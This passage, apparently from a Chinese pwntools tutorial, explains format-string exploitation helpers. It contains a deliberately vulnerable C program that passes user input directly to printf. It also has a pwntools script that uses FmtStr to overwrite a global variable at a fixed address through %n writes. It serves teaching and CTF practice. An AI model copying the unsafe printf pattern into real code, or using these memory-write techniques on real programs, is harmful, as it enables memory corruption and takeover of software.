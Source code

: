 numbwritten (int): 在输入格式化字符串之前你还输入了多少，确保 %n 进去的值正确。

下面用这个程序做个示范：

```c
#include <stdio.h>
#include <stdbool.h>

int flag = 0x77;

int main()
{
    char str[100];

    setbuf(stdout, NULL);

    while (true) {
        scanf("%s", str);
        printf(str);
        if (flag == 0x6b) {
            puts("Success!");
            break;
        }
    }

    return 0;
}
```

```python
#!/usr/bin/python
from pwn import *

io = process("./a.out")

def exec_fmt(payload):
    print payload
    io.sendline(payload)
    data = io.recv()
    print data
    return data

fmt_str = FmtStr(exec_fmt)
fmt_str.write(0x804a02c, 0x6b)
fmt_str.execute_writes()

io.close()
```

### 生成格式化字符串

fmtstr_payload (offset, writes, numbwritten = 0, write_size ='byte')

offset (int): 你输入的格式化字符串与格式化函数参数的偏移。
